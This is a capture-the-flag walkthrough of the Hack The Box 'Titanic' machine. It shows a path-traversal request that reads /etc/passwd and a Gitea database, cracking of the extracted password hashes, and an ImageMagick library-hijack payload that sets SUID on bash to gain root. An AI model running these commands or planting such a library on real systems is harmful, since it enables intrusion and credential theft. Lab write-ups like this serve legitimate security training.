


# Titanic HackTheBox WalkThrough


We start the machine with an nmap scan of all TCP ports.

```
nmap -sS 10.129.137.171 -n -Pn -p- --min-rate 3000

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ports 22 (SSH) and 80 (HTTP) are open. Let's try to detect the versions of these services and verify if they are actually running.

```
nmap -sVC -p 22,80 10.129.137.171

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Indeed, the machine runs OpenSSH and Apache. Neither of the detected versions appear to be vulnerable at first glance. Since there is an HTTP service running on port 80, let’s use `whatweb` to detect the technologies in use.

```
whatweb 10.129.137.171

http://10.129.137.171 [301 Moved Permanently] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.137.171], RedirectLocation[http://titanic.htb/], Title[301 Moved Permanently]
ERROR Opening: http://titanic.htb/ - no address for titanic.htb
```

The server tries to redirect us to `http://titanic.htb`, so we need to add it to `/etc/hosts` for proper resolution.

```
echo "10.129.137.171  titanic.htb" >> /etc/hosts
```

Now, we run the script again:

```
whatweb titanic.htb

http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.129.137.171], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
```

We take note of the detected technologies, as they might be useful later.

Now that we have basic reconnaissance data, let's visit the website.


While testing the website's buttons, we notice that only `Book Now` is functional.


We fill out the form with random data.



After submitting the form, a file with the structure `<random_string>.json` is downloaded. Let’s intercept this request using Burp Suite to analyze the backend behavior.



We can see that the server returns a `Location` header, redirecting us to a URL with the parameter `ticket=<file>`.

Since the `ticket` parameter refers to a file, let's attempt a **path traversal attack**.

```
curl "titanic.htb/download?ticket=../../../etc/passwd"

root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
...passwd file...
```

The exploitation is successful.

Now, let’s check `/etc/hosts` to look for any subdomains.

```
curl "titanic.htb/download?ticket=../../../etc/hosts"

127.0.0.1 localhost titanic.htb dev.titanic.htb
...hosts file...
```

A new subdomain appears: `dev.titanic.htb`. Let’s add it to our `/etc/hosts` file and visit it in the browser.

```
echo "10.129.137.171 dev.titanic.htb" >> /etc/hosts
```

This service is `Gitea`, a platform for managing Git projects. Let’s check the available repositories.


In the `docker-config` repository, inside `docker-compose.yml`, we notice a volume mapping `/home/developer/data` to `/data` in the container.

```
volumes:
    - /home/developer/gitea/data:/data
```

According to the [Gitea Docker documentation](https://docs.gitea.com/installation/install-with-docker), customization files are stored in `/data/gitea`, which means the database should be there.

```
Customization files described here should be placed in /data/gitea directory.
```

Following [this documentation](https://docs.gitea.com/1.21/help/faq#where-does-gitea-store-what-file), we identify the default SQLite3 database file name.

We use our path traversal vulnerability to download the database.

```
curl "titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db" --output gitea.db
```

Opening it with SQLite:

```
sqlite3 gitea.db
```

Listing the tables:

```
.tables

...tables...
user
...tables...
```

The `user` table catches our attention.

Reading its columns, we find passwords hashed with `PBKDF2`. To crack them, we use **hashcat**, but first, we convert the hashes using `gitea2hashcat.py` as explained [here](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes).

```
select email,salt,passwd from user;

root@titanic.htb|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer@titanic.htb|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
test@test.com|7fcf462c21bf4ca64d61976df790f169|8ee98d985f9fe735939f8c434866440513a1b2089510c15d3104c4bc2c72c00ebe43745886892128d6b51d1195f77bea651e
```

We are going to try to crack the `developer`'s password.

```
./gitea2hashcat.py '8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Using `rockyou.txt` for cracking:

```
hashcat -m 10900 hashes.txt rockyou.txt
```

Soon, we retrieve the password:

```
hashcat -m 10900 hashes.txt rockyou.txt --show

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

The password in Gitea is `25282528`. Let's try to connect through `ssh` with the same credentials.

```
ssh developer@titanic.htb
developer@titanic.htb's password: 25282528
```

We successfully access the `developer` user and read the user flag.

```
cd
cat user.txt
```

To escalate privileges, we find `/opt/scripts/identify_images.sh`.

```
cat /opt/scripts/identify_images.sh

cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This script runs `/usr/bin/magick identify` in each image of the directory `/opt/app/static/assets/images/`. The problem is the installed version is vulnerable to a exploit described [here](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

Following the exploit instructions, we compile a malicious shared library in the same directory where the images to be analyzed are stored. We will run `chmod +s /usr/bin/bash` to give **SUID** to **Bash** and connect as `root` with no password.

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /usr/bin/bash");
    exit(0);
}
EOF
```

Assuming that the script runs periodically as `root`, we wait a few seconds for it to execute, allowing us to run **Bash** with **SUID** privileges.

```
bash -p
whoami

root
```

We are now `root` and can retrieve the final flag.

```
cd
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.